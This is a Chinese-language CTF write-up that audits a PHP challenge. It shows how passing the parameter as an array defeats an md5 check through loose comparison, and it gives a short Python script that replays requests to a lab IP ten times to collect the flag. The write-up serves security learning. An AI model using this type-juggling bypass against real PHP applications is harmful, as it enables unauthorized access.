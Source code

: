 

# codereading

```php
<?php 
error_reporting(0);
session_start();
require('flag.php');
if(!isset($_SESSION['number'])){
  $_SESSION['number'] = 0;
  $_SESSION['now'] = time();
  $_SESSION['JNsec'] = 'xyz';
}
if($_SESSION['now']+30<time()){
  session_destroy();
}
$whatismd5 = $_REQUEST['whatismd5'];
$str_rand = range('a', 'z');
$str_rands = $str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)].$str_rand[mt_rand(0,25)];

if($_SESSION['JNsec']==($whatismd5[0].$whatismd5[1].$whatismd5[2]) && substr(md5($whatismd5),5,4)==0){
  $_SESSION['number']++;
  $_SESSION['JNsec'] = $str_rands;
  echo $str_rands;
}

if($_SESSION['number']>=10){
  echo $flag;
}

show_source(__FILE__);
?>
```

一看就知道是php代码审计

首先是php 的session变量，PHP session 变量用于存储关于用户会话（session）的信息，或者更改用户会话（session）的设置。Session 变量存储单一用户的信息，并且对于应用程序中的所有页面都是可用的。

在我这就是个变量，然后使用它要先session_start()

首先他写了三个session变量

number=0，now=time()，JNsec=xyz

time()函数就是返回时间

```php
<?php
 echo time();
?>
```

写一个简单php，显示一下time()函数是什么

![1570682554337](assets/17.png)

大概就是显示一个很大的数字

主要部分就是这个

```php
if($_SESSION['JNsec']==($whatismd5[0].$whatismd5[1].$whatismd5[2]) && substr(md5($whatismd5),5,4)==0){
  $_SESSION['number']++;
  $_SESSION['JNsec'] = $str_rands;
  echo $str_rands;
}
```

```php
$_SESSION['JNsec']==($whatismd5[0].$whatismd5[1].$whatismd5[2])
```

看这句话，就是whatismd5的值要和JNsec相等，那一开始就令whatismd5=xyz

```php
substr(md5($whatismd5),5,4)==0
```

对于md5()，只要里面是个数组，他就是零

所以我们whatismd5[]=xyz

满足这两个条件他就会给JNsec赋一个随机的字母，只要你做到10次，就可以得到flag

我不知道为啥有时候我输入两次就不行了

所以还是写个脚本 

```python
import requests
url = "http://172.18.146.241:30685/?whatismd5[]=xyz"
s = requests.session()
r = s.get(url)
for i in range(10):
    url = "http://172.18.146.241:30685/?whatismd5[]=" + r.text[0:3]
    r = s.get(url)
print (r.text[0:50])
```

![1570683301379](assets/83301379.png)

！！！这里text和content不知道什么区别，但是content就不行



